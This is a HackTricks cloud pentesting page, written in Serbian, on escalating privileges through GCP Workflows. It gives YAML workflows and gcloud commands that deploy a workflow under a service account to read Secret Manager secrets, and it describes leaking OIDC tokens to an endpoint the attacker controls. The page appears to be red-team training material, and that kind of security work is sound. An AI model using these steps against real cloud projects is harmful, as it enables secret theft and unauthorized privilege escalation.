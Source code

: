 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Osnovne informacije:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Koliko ja znam, nije moguće dobiti shell sa pristupom metapodacima koji sadrže SA akreditive SA vezanog za Workflow. Međutim, moguće je zloupotrebiti dozvole SA dodavanjem akcija koje treba izvršiti unutar Workflow-a.

Moguće je pronaći dokumentaciju konektora. Na primer, ovo je [**stranica konektora Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** U bočnoj traci moguće je pronaći nekoliko drugih konektora.

I ovde možete pronaći primer konektora koji štampa tajnu:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Ažuriranje iz CLI-a:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Ako dobijete grešku poput `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, samo **sačekajte minut i pokušajte ponovo**.

Ako nemate web pristup, moguće je pokrenuti i videti izvršenje Workflow-a sa: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Možete takođe proveriti izlaz prethodnih izvršenja da biste potražili osetljive informacije
{% endhint %}

Imajte na umu da čak i ako dobijete grešku poput `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` zato što nemate tu dozvolu, radni tok je generisan.

### Curjenje OIDC tokena (i OAuth?)

Prema [**dokumentaciji**](https://cloud.google.com/workflows/docs/authenticate-from-workflow), moguće je koristiti korake radnog toka koji će poslati HTTP zahtev sa OAuth ili OIDC tokenom. Međutim, kao u slučaju [Cloud Scheduler](gcp-cloudscheduler-privesc.md), HTTP zahtev sa Oauth tokenom mora biti upućen hostu `.googleapis.com`.

{% hint style="danger" %}
Stoga, **moguće je curenje OIDC tokena ukazivanjem na HTTP krajnju tačku** koju kontroliše korisnik, ali da biste curili **OAuth** token, potrebna vam je **zaobilaženje** te zaštite. Ipak, i dalje možete **kontaktirati bilo koji GCP API da izvršite radnje u ime SA** koristeći bilo koje konektore ili HTTP zahteve sa OAuth tokenom.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Sa ovom dozvolom umesto `workflows.workflows.create` moguće je ažurirati već postojeći workflow i izvršiti iste napade.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
